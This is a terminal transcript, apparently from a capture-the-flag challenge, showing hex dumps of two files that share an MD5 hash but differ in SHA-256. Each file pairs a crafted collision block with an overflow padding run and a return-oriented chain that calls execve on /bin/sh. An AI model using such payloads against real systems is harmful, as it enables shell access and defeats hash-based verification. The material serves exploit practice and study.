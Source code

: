 ```
$ md5sum id*
8c1faa48b2cd89117cb2618bfc3159e9  id1
8c1faa48b2cd89117cb2618bfc3159e9  id2
$ sha256sum id*
62fda9f92ad8d19c5b4b78fe744e789846e72a69129f6cb02c36e6208e7aba10  id1
d7e06ff5604125d34350d07f6f27dd057161a3570ecebc3ee8e7fbfe39b7bc8b  id2
$ xxd id1
00000000: 4869 2c20 6d79 206e 616d 6520 6973 204a  Hi, my name is J
00000010: 616e 6775 692e 204d 7920 6361 7264 2069  angui. My card i
00000020: 7320 6d79 2070 6173 7370 6f72 742e 2050  s my passport. P
00000030: 6c65 6173 6520 7665 7269 6679 206d 652e  lease verify me.
00000040: 7a04 8fad 03dd c22a 4a2a fc59 fac3 b003  z......*J*.Y....
00000050: 0b43 4343 8902 4fee 51a2 770a cabf 9630  .CCC..O.Q.w....0
00000060: 7dfd fde6 be67 80f0 cb23 4104 158e 9ab7  }....g...#A.....
00000070: 5670 c6b5 a9f9 cc56 2615 cb65 9792 2c2b  Vp.....V&..e..,+
00000080: c87f 5c4e 71d2 09bf edbc c38a 9825 dde3  ..\Nq........%..
00000090: ad13 db4e 6c5c 32e1 8bc5 40df 8b5f a8c6  ...Nl\2...@.._..
000000a0: d3bb 4828 af04 7214 780a c67a 3c40 f19e  ..H(..r.x..z<@..
000000b0: 5438 7c79 06f6 9902 9851 37b9 2073 06d8  T8|y.....Q7. s..
000000c0: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
000000d0: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
000000e0: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
000000f0: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000100: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000110: 4141 4141 4141 4141 dc10 4000 0000 0000  AAAAAAAA..@.....
00000120: e010 6c00 0000 0000 c4c0 4100 0000 0000  ..l.......A.....
00000130: 2f62 696e 2f73 6800 f15f 4800 0000 0000  /bin/sh.._H.....
00000140: c4c0 4100 0000 0000 3b00 0000 0000 0000  ..A.....;.......
00000150: c606 4000 0000 0000 e010 6c00 0000 0000  ..@.......l.....
00000160: dc10 4000 0000 0000 0000 0000 0000 0000  ..@.............
00000170: e502 4500 0000 0000 0000 0000 0000 0000  ..E.............
00000180: ac7b 4000 0000 0000                      .{@.....
$ xxd id2
00000000: 4869 2c20 6d79 206e 616d 6520 6973 204a  Hi, my name is J
00000010: 616e 6775 692e 204d 7920 6361 7264 2069  angui. My card i
00000020: 7320 6d79 2070 6173 7370 6f72 742e 2050  s my passport. P
00000030: 6c65 6173 6520 7665 7269 6679 206d 652e  lease verify me.
00000040: 7a04 8fad 03dd c22a 4a2a fc59 fac3 b003  z......*J*.Y....
00000050: 0b43 43c3 8902 4fee 51a2 770a cabf 9630  .CC...O.Q.w....0
00000060: 7dfd fde6 be67 80f0 cb23 4104 150e 9bb7  }....g...#A.....
00000070: 5670 c6b5 a9f9 cc56 2615 cbe5 9792 2c2b  Vp.....V&.....,+
00000080: c87f 5c4e 71d2 09bf edbc c38a 9825 dde3  ..\Nq........%..
00000090: ad13 dbce 6c5c 32e1 8bc5 40df 8b5f a8c6  ....l\2...@.._..
000000a0: d3bb 4828 af04 7214 780a c67a 3cc0 f09e  ..H(..r.x..z<...
000000b0: 5438 7c79 06f6 9902 9851 3739 2073 06d8  T8|y.....Q79 s..
000000c0: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
000000d0: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
000000e0: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
000000f0: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000100: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000110: 4141 4141 4141 4141 dc10 4000 0000 0000  AAAAAAAA..@.....
00000120: e010 6c00 0000 0000 c4c0 4100 0000 0000  ..l.......A.....
00000130: 2f62 696e 2f73 6800 f15f 4800 0000 0000  /bin/sh.._H.....
00000140: c4c0 4100 0000 0000 3b00 0000 0000 0000  ..A.....;.......
00000150: c606 4000 0000 0000 e010 6c00 0000 0000  ..@.......l.....
00000160: dc10 4000 0000 0000 0000 0000 0000 0000  ..@.............
00000170: e502 4500 0000 0000 0000 0000 0000 0000  ..E.............
00000180: ac7b 4000 0000 0000                      .{@.....
```

